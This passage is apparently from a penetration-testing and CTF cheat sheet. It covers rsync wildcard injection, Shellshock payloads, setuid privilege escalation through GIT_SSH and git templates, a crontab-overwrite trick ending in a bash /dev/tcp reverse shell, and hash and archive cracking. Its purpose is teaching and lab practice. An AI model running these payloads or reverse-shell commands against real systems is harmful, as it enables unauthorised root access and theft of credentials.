    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

Now root will try to copy all C files to the remote server.

:: 

    [root@defensecode public]# rsync -t *.c foo:src/

    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...

:: 

    [root@defensecode public]# ls -al
    total 76
    drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

There were two files owned by user 'leon', as listed below.

:: 

    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

:: 

    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

If we check its content, following data is found.

:: 

    [root@defensecode public]# cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

:: 

    [root@defensecode public]# cat shell.c
    /usr/bin/id > shell_output.txt

Tips and Tricks
===============

FTP Services
------------

If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

::

  wget -rq ftp://IP --ftp-user=username --ftp-password=password

SSH
---

ssh_config
^^^^^^^^^^
If you know the password of the user, however, ssh is not allowing you to login, check ssh_config.

::

   ## Tighten security after security incident 
   ## root never gets to log in remotely PermitRootLogin no 
   ## Eugene & Margo can SSH in, no-one else allowed 
   AllowUsers example_user1 example_user2 
   ## SSH keys only but example_user1 can use a password 
   Match user example_user1 
   PasswordAuthentication yes 	
   ## End tighten security

SSH as SOCKS Proxy
^^^^^^^^^^^^^^^^^^
We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

:: 

  ssh -D localhost:9050 user@host

  -D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.

and 
	
:: 
	
  proxychains4 remmina

HTTP
----

First things
^^^^^^^^^^^^

* View Source of the web-page (Ctrl+U).
* Inspect element of the web-page (F12).
* See if there is any hint in the title of the web page. (example: /Magic).
* If any login page is implemented asking for username and password. Check how it is implemented? Is it using any open-source authentication modules? If so, look if there are any default passwords for that.

htaccess - UserAgent
^^^^^^^^^^^^^^^^^^^^
When you see something like this "Someone's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

:: 

   cat .htaccess 
   BrowserMatchNoCase "iPhone" allowed

   Order Deny,Allow 
   Deny from ALL 
   Allow from env=allowed 
   ErrorDocument 403 “<H1>Super secret location - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”

CGI-BIN Shellshock
^^^^^^^^^^^^^^^^^^
To understand shellshock few blogs can be referred such as `ShellShocked – A quick demo of how easy it is to exploit <https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/>`_ , `Inside Shellshock: How hackers are using it to exploit systems <https://blog.cloudflare.com/inside-shellshock/>`_

::

  curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat

It is important to understand what is cgi-bin which can be read from `Creating CGI Programs with Bash: Getting Started <http://www.team2053.org/docs/bashcgi/gettingstarted.html>`_ . Also the most important lines in this file are:

::

  echo "Content-type: text/html"
  echo ""
 
These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn't understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling (directly or indirectly) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

::

  sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary

Shellshock also affects DHCP as mentioned `Shellshock DHCP RCE Proof of Concept <https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/>`_ There's a metasploit module named "Dhclient Bash Environment Variable Injection (Shellshock)" for this.

XSS/ HTML Injection
^^^^^^^^^^^^^^^^^^^

The below will redirect the page to google.com

::
 
  <META http-equiv=“refresh” content=“0;URL=http://www.google.com”>

curl
^^^^

:: 

    -k, --insecure
    (SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
    This makes all connections considered "insecure" fail unless -k, --insecure is used.

    -I, --head
    (HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.

HTTP Referer
^^^^^^^^^^^^

The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed. The Referer header allows servers to identify where people are visiting them from and may use that data for analytics, logging, or optimized caching.

::
   
  Referer: <url>

  <url> An absolute or partial address of the previous web page from which a link to the currently requested page was followed. URL fragments (i.e. "#section") are not included.

Data-URI
^^^^^^^^^
`Basics of HTTP Data URI <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics\_of\_HTTP/Data\_URIs>`_

Login-Pages
^^^^^^^^^^^
To test login pages, we may use burpsuite intruder and check for different length of response.

Delete Tags
^^^^^^^^^^^
Delete all lines between tags including tags:

::
   
  sed '/<tag>/,/<\/tag>/d' input.txt

.. Tip :: Useful when you are accessing the webpage using curl and their LFI and you want to remove the html/ body tags.

HTTP 404 Custom Page
^^^^^^^^^^^^^^^^^^^^
Sometimes, it's a good idea to look at 404 custom page also. There might be some information store.d

PHP
^^^

* PHP's preg_replace() function which can lead to RCE. It's deprecated in later revisions (PHP >= 5.5.0). If you think there's a pattern which is replaced in a text, refer `The unexpected dangers of preg_replace() <https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace>`_ 

run-parts
---------

run-parts runs all the executable files named, found in directory directory. This is mainly useful when we are waiting for the cron jobs to run. It can be used to execute scripts present in a folder.

:: 

  run-parts /etc/cron.daily

Sudoers file
------------

If the sudoers file contains: 
	
:: 

  secure\_path 
  Path used for every command run from sudo. If you don't trust the people running sudo to have a sane PATH environment 	variable you may want to use this. Another use is if you want to have the “root path” be separate from the “user path”. Users in the group specified by the exempt\_group option are not affected by secure\_path. This option is not set by default.

  env\_reset If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO\_\* variables. Any variables in the caller's environment that match the env\_keep and env\_check lists are then added, followed by any variables present in the file specified by the env\_file option (if any). The contents of the env\_keep and env\_check lists, as modified by global Defaults parameters in sudoers, are displayed when sudo is run by root with the -V option. If the secure\_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

  mail\_badpass Send mail to the mailto user if the user running sudo does not enter the correct password. If the command the user is attempting to run is not permitted by sudoers and one of the mail\_all\_cmnds, mail\_always, mail\_no\_host, mail\_no\_perms or mail\_no\_user flags are set, this flag will have no effect. This flag is off by default.

Docker Security
---------------

Any user who is part of the docker group should also be considered root. Read `Using the docker command to root the host <http://reventlov.com/advisories/using-the-docker-command-to-root-the-host>`_ Older version of docker were vulnerable to Docker breakout. More details at `Shocker / Docker Breakout PoC <https://github.com/gabrtv/shocker>`_


Java keystore file
------------------

Refer `Java Keytool essentials working with java keystores <https://www.digitalocean.com/community/tutorials/java-keytool-essentials-working-with-java-keystores>`_ and `openssl essentials working with ssl certificates private keys and csrs <https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs#convert-certificate-formats>`_

Cracking MD5 Hashes
-------------------

Try `Crackstation <https://crackstation.net/>`_ or `ISC Reverse hash <https://isc.sans.edu/tools/reversehash.html>`_

Steghide
--------
Looking for hidden text in the images? Utilize steghide

::

  steghide version 0.5.1

  the first argument must be one of the following:
  embed, --embed          embed data
  extract, --extract      extract data
  info, --info            display information about a cover- or stego-file
  info <filename>       display information about <filename>
  encinfo, --encinfo      display a list of supported encryption algorithms
  version, --version      display version information
  license, --license      display steghide's license
  help, --help            display this usage information

.. Tip :: Sometimes, there is no password, so just press enter.

Git client Privilege Escalation
--------------------------------
Git clients (before versions 1.8.5.6, 1.9.5, 2.0.5, 2.1.4 and 2.2.1) and Mercurial clients (before version 3.2.3) contained three vulnerabilities that allowed malicious Git or Mercurial repositories to execute arbitrary code on vulnerable clients under certain circumstances. Refer `12 Days of HaXmas: Exploiting CVE-2014-9390 in Git and Mercurial <https://community.rapid7.com/community/metasploit/blog/2015/01/01/12-days-of-haxmas-exploiting-cve-2014-9390-in-git-and-mercurial>`_

In one of write-up, `Nicolas Surribas <http://devloop.users.sourceforge.net/>`_ has mentioned about two git environment variables GIT_SSH and GIT_TEMPLATE which can be utilized to do privilege escalation if git clone is performed using a suid binary. Imagine a suid binary utilized to do git clone from a remote directory.

GIT_SSH
^^^^^^^

If either (GIT_SSH or GIT_SSH_COMMAND) of these environment variables is set then git fetch and git push will use the specified command instead of ssh when they need to connect to a remote system. The command will be given exactly two or four arguments: the username@host (or just host) from the URL and the shell command to execute on that remote system, optionally preceded by -p (literally) and the port from the URL when it specifies something other than the default SSH port. $GIT_SSH_COMMAND takes precedence over $GIT_SSH, and is interpreted by the shell, which allows additional arguments to be included.  $GIT_SSH on the other hand must be just the path to a program (which can be a wrapper shell script, if additional arguments are needed).

::

  echo '#!/bin/bash' > cmd
  echo 'cp /root/flag.txt /tmp' >> cmd
  echo 'chmod 777 /tmp/flag.txt' >> cmd
  GIT_SSH=/home/username/cmd ./setuidbinary(utilizing git clone/ git fetch)

  or

  echo 'chown root:root /home/username/priv ; chmod 4755 /home/username/priv' > ssh

  where priv is binary compiled from suid.c

This basically changes the command from

::

  trace: built-in: git 'clone' 'ssh://root@machine-dev:/root/secret-project' '/mnt/secret-project/'

to

::

  trace: run_command: '/home/user/ssh' 'root@machine-dev' 'git-upload-pack '\''/root/secret-project'\'''

GIT_TEMPLATE_DIR
^^^^^^^^^^^^^^^^^
Files and directories in the template directory whose name do not start with a dot will be copied to the $GIT_DIR after it is created. Refer `Git-init <https://git-scm.com/docs/git-init>`_ 

::

  cp -r /usr/share/git-core/templates/ mytemplates
  cd mytemplates/hooks
  echo '#!/bin/bash' > post-checkout
  echo 'cp /root/flag /tmp/flag2' >> post-checkout
  echo 'chown username.username /tmp/flag2' >> post-checkout
  chmod +x post-checkout
  cd ../..
  GIT_TEMPLATE_DIR=/home/username/mytemplates/ ./setuidbinary( utilizing git clone/ git fetch)


Metasploit shell upgrade
------------------------

In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in a VM), we can upgrade it to meterpreter by using sessions -u

:: 

   sessions -h
   Usage: sessions [options]
   
   Active session manipulation and interaction.

   OPTIONS:

   -u <opt>  Upgrade a shell to a meterpreter session on many platforms

Password Protected File
------------------------
	  
ZIP File
^^^^^^^^

run fcrackzip

:: 

    fcrackzip -D -u -p /tmp/rockyou2.txt flag.zip

    -D, --dictionary:    Select dictionary mode. In this mode, fcrackzip will read passwords from a file, which must contain one password per line and should be alphabetically sorted (e.g. using sort(1)).
    -p, --init-password string :  Set initial (starting) password for brute-force searching to string, or use the file with the name string to supply passwords for dictionary searching.
    -u, --use-unzip: Try to decompress the first file by calling unzip with the guessed password. This weeds out false positives when not enough files have been given.

rar2john
^^^^^^^^
We can get the password hash of a password protected rar file by using rar2john

:: 

    [root:~/Downloads]# rar2john crocs.rar
    file name: artwork.jpg
    crocs.rar:$RAR3$*1*35c0eaaed4c9efb9*463323be*140272*187245*0*crocs.rar*76*35:1::artwork.jpg

Truecrypt Files
---------------

If you have a truecrypt volume to open and crack it's password, we can use truecrack to crack the password and veracrypt to open the truecrypt volume.

:: 

  truecrack --truecrypt <Truecrypt File> -k SHA512 -w <Wordlist_File>

and Veracrypt or cryptsetup to open the file.

::

  cryptsetup open --type tcrypt <Truecrypt> <MountName>


Others
------
* It is important to check .profile files also. As it might contain scripts which are executed when a user is logged in. Also, it might be important to see how a application is storing password.

* If OPcache engine seemed to be enabled ( check from phpinfo.php file ) which may allow for exploitation (see the following article)https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

* Identification of OS:
	
 :: 

  cat /etc/os-release

  NAME="Ubuntu" VERSION="16.04 LTS (Xenial Xerus)" ID=ubuntu
  ID\_LIKE=debian PRETTY\_NAME="Ubuntu 16.04 LTS" VERSION\_ID="16.04"
  HOME\_URL="http://www.ubuntu.com/"
  SUPPORT\_URL="http://help.ubuntu.com/"
  BUG\_REPORT\_URL="http://bugs.launchpad.net/ubuntu/"
  UBUNTU\_CODENAME=xenial

* Many times if IPv6 is enabled, probably you can utilize IPv6 to connect and bypass firewall restrictions ( If firewall is not implemented at IPv6 level - many times it is not ).

 * To find IPv6 from SNMP 

  :: 

   snmpwalk -v2c -c public prism 1.3.6.1.2.1.4.34.1.3    
   iso.3.6.1.2.1.4.34.1.3.2.48.1.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544320
   iso.3.6.1.2.1.4.34.1.3.2.48.2.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544321
   iso.3.6.1.2.1.4.34.1.3.2.48.2.18.52.86.120.171.205.0.0.0.0.0.0.0.1 = INTEGER: 335544323

  Now, convert the decimal value after "iso.3.6.1.2.1.4.34.1.3.2" to hex which would be your IPv6 address "3002:1234:5678:ABCD::1"

 .. ToDo ::  Mention examples for IPv6 connect


* Port 139 Open

 :: 

   smbclient -N -L 192.168.1.2 WARNING: The "syslog" option is deprecated
   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   kathy           Disk      Fred, What are we doing here?
   tmp             Disk      All temporary files should be stored here
   IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Server               Comment
   ---------            -------
   RED                  red server (Samba, Ubuntu)

   Workgroup            Master
   ---------            -------
   WORKGROUP            RED

   -N : If specified, this parameter suppresses the normal password prompt from the client to the user. This is useful when accessing a service that does not require a password. -L\|--list This option allows you to look at what services are available on a server. You use it as smbclient
   -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


 If you want to access the share you might want to type

 :: 

   smbclient \\\\IP\\share\_name

 So, in the above example, it would be

 ::

   smbclient \\\\192.168.1.2\\kathy

 If port 139 is open, also run enum4linux, may be it would help get the user list
    
    


* Port 69 UDP:

  TFTP

  :: 

   get or put file

	    
* Ruby Best way to get quoted words / phrases out of the text

  :: 

    text.scan(/"([^"]\*)"/)

    
* Convert all text in a file from UPPER to lowercase
	
  :: 

   tr '[:upper:]' '[:lower:]' < input.txt > output.txt


* Remove lines longer than x or shorter than x

  :: 

   awk 'length($0)>x' filename or awk 'length($0)

* Remember, by default cewl generates a worldlist of one word. It by default ignore words in quotes. For example: if "Policy of Truth" is written in quotes. It will treat it as three words. However, what we wanted is to consider whole word between the quotes. By doing a small change in the cewl source code, we can get all the words in quotes, we also can remove spaces and changing upper to lower, we were able to create a small wordlist.

 
* Got a random string: Figure out what it could be? Hex encoded, base64 encoded, md5 hash. Use hash-identifier tool to help you.

* If a machine is running a IIS Server and we have found a way to upload a file. We can try asp web-shell or meterpreter of asp, aspx, aspx-exe executable formats from msfvenom.

* If we get a pcap file which contains 802.11 data and has auth, deauth and eapol key packets, most probably it's a packet-capture done using the wireless attack for WPA-Handshake. Use aircrack to see if there is any WPA handshake present.

 :: 

   13:06:21.922176 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.922688 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.923157 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.924224 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.924736 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.925723 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.933402 Probe Response (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit] CH: 11, PRIVACY
   13:06:21.933908 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.934427 Clear-To-Send RA:e0:3e:44:04:52:75 (oui Unknown) 
   13:06:21.991250 Authentication (Open System)-1: Successful
   13:06:21.992274 Authentication (Open System)-1: Successful
   13:06:21.992282 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.992795 Authentication (Open System)-2: 
   13:06:21.992787 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.994834 Assoc Request (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit]
   13:06:21.994843 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.996890 Assoc Response AID(1) : PRIVACY : Successful
   13:06:21.996882 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.011783 Action (e8:50:8b:20:52:75 (oui Unknown)): BA ADDBA Response
   13:06:22.012314 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.012827 BAR RA:e8:50:8b:20:52:75 (oui Unknown) TA:c4:12:f5:0d:5e:95 (oui Unknown) CTL(4) SEQ(0) 
   13:06:22.013330 BA RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.014874 CF +QoS EAPOL key (3) v2, len 117
   13:06:22.015379 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.030226 CF +QoS EAPOL key (3) v1, len 117
   13:06:22.030746 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.043034 CF +QoS EAPOL key (3) v2, len 175
   13:06:22.043026 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.054803 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056338 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056859 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.064514 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.065030 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.079878 Clear-To-Send RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.080901 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.110144 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station

* Transfer an image
	
 :: 

   base64 flair.jpg 
   Copy output 
   vi flair 
   Paste the clipboard 
   base64 -d flair > flair.jpg

* Have a web-accessible git ? utilize `dvcs-ripper <https://github.com/kost/dvcs-ripper>`_ to rip web accessible (distributed) version control systems: SVN, GIT, Mercurial/hg, bzr. It can rip repositories even when directory browsing is turned off. Eric Gruber has written a blog on `Dumping Git Data from Misconfigured Web Servers <https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/>`_ providing good walkthru.

* It's always important to find, what's installed on the box:

 :: 

   dpkg-query -l 

 or using wild cards

 :: 

   dpkg-query -l 'perl*'

* It's always important to note down all the passwords found during the process of exploiting a vulnerable machine as there is a great possibility that passwords would be reused.
 
* If you have .jar file, Probably use jd-gui to decompile and view the class file. 


* Find recently modified files:

  ::

   find / -mmin -10 -type f 2>/dev/null

  The above will show you which files have been modified within the last 10 minutes, which could help you find out whether an important config file, or log file has been modified.

* Getting a reverse shell from:

 * Drupal: Now that we have access to the Drupal administration panel, we can gain RCE by enabling the PHP filter module. This will allow us to execute arbitrary code on the site by inserting a specifically crafted string into page content. After enabling the module, I proceed to allow code to be executed by all users under the configuration screen for the module. Once enabled we need to give permission to use it so in people -> permissions check "Use the PHP code text for. 
   
   Next I create a new block (by going to Blocks, under the Structure menu) with the following content. I make sure to select PHP code from the Text format drop down. Taken from <https://g0blin.co.uk/droopy-vulnhub-writeup/>
   Drupal settings file location: /var/www/html/sites/default/settings.php

* If the only port which is open is 3128, check for the open proxy and route the traffic via the open proxy.

* Want to send a email via the SMTP server something like SMTP-Open-Relay utilize `Swaks <http://www.jetmore.org/john/code/swaks/>`_ Swiss Army Knife for SMTP.

  ::

   swaks --to xxxxx@example.com --from xxxxxee@example.edu --server 192.168.110.105:2525 --body "Hey Buddy How are you doing" --header "Subject: Hello! Long time"

* Got /etc/shadow file?, utilize /etc/passwd with unshadow command and use john or cudahashcat to crack passwords.

 ::

  unshadow passwd shadown


* In one of the VM, one of the task was to capture the RAM of the system by using LiME ~ Linux Memory Extractor ( which is executed by suid binary with root privileges ). Let's say the ramdump was saved at

  ::

   /tmp/ramdump

  If, you create a symlink from /tmp/ramdump to /etc/crontab

  ::

   ln -s /etc/crontab /tmp/ramdump

  Now, when the ramdump is taken, lime will now dump the content of RAM straight into /etc/crontab. As crontab will ignore everything which doesn’t match the correct syntax. If the memory contains a injected string such as 

  ::

   cat cron.py
   print "* * * * * root /bin/bash /home/username/evilscript"
  
  the injected string will end up in /etc/crontab will be executed.

  The contents of evilscript can be

  ::

   /bin/bash -i >& /dev/tcp/IP/Port 0>&1

  which will provide the root shell to the attacker. Thanks to TheColonial :)
   
* Handy Stuff

 * Utilize xxd to convert hex to ascii

  ::

   xxd -r -p
   -p | -ps | -postscript | -plain : output in postscript continuous hexdump style. Also known as plain hexdump style.
   -r | -revert : reverse operation: convert (or patch) hexdump into binary.  If not writing to stdout, xxd writes into its output file without truncating it. Use the combination -r -p to read plain hexadecimal dumps without line number information and without a particular column layout. Additional Whitespace and line-breaks are allowed anywhere.

 * Use python

  * binascii.unhexlify(hexstr) to convert hex to string
  * base64.decodestring(str) to decode base64 string

 * Getting out of more
  
  If in somecase, we are unable to ssh into the machine or being logged out when trying ssh, check the /etc/passwd file for the shell defined for that user.

  ::
   
    cat /etc/passwd | grep user1
    user1:x:11026:11026:user level 1:/home/user1:/usr/bin/showtext

  Here Instead of /bin/bash, user1 is using /usr/bin/showtext, which is apparently not a shell. Let’s look at the content of the file

  ::

    cat /usr/bin/showtext
    #!/bin/sh
    more ~/text.txt
    exit 0

  In such cases, First, minimize your terminal so that when we are logged into user1 via ssh command, the large text will force a “more” message to prompt us to continue the output. Now that we have forced the terminal to prompt us to continue the display via “more” or “–More–(50%)” in this case, press “v” to enter “vim”, a built-in text editor on Unix machines. Once, we have vim interface, use :shell to get a shell 

Cyber-Deception
===============

Wordpot
-------

`Wordpot <https://github.com/gbrindisi/wordpot>`_ : Wordpot is a Wordpress honeypot which detects probes for plugins, themes, timthumb and other common files used to fingerprint a wordpress installation.

::

 python /opt/wp/wordpot.py --host=$lanip --port=69 --title=Welcome to XXXXXXX Blog Beta --ver=1.0 --server=XXXXXXXWordpress

FakeSMTP
--------

`FakeSMTP <http://nilhcem.com/FakeSMTP/>`_ : FakeSMTP is a Free Fake SMTP Server with GUI for testing emails in applications easily.

::

  java -jar /opt/fakesmtp/target/fakeSMTP-2.1-SNAPSHOT.jar -s -b -p 2525 127.0.0.1 -o /home/username

Rubberglue
----------

`Rubberglue <https://github.com/adhdproject/adhdproject.github.io/blob/master/Tools/Rubberglue.md>`_ : We can use Rubberglue to listen on a port such that any traffic it receives on that port it will forward back to the client ( attacker ) on the same port.

::

  python2 /opt/honeyports/honeyports-0.4.py -p 23

Knockd
------

`Knockd - Port-knocking server <http://www.zeroflux.org/projects/knock>`_ : knockd is a port-knock server. It listens to all traffic on an ethernet (or PPP) interface, looking for special "knock" sequences of port-hits. A client makes these port-hits by sending a TCP (or UDP) packet to a port on the server. This port need not be open -- since knockd listens at the link-layer level, it sees all traffic even if it's destined for a closed port. When the server detects a specific sequence of port-hits, it runs a command defined in its configuration file. This can be used to open up holes in a firewall for quick access.

DCEPT
-----

SecureWorks researchers have created a solution known as `DCEPT (Domain Controller Enticing Password Tripwire) <https://www.secureworks.com/blog/dcept>`_ to detect network intrusions. Github is `dcept <https://github.com/secureworks/dcept>`_ 

Useful Tools
============

* `exe2hex <https://github.com/g0tmi1k/exe2hex>`_ : Inline file transfer using in-built Windows tools (DEBUG.exe or PowerShell). 

* `Powercat <https://github.com/secabstraction/PowerCat>`_ : A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat

.. disqus::
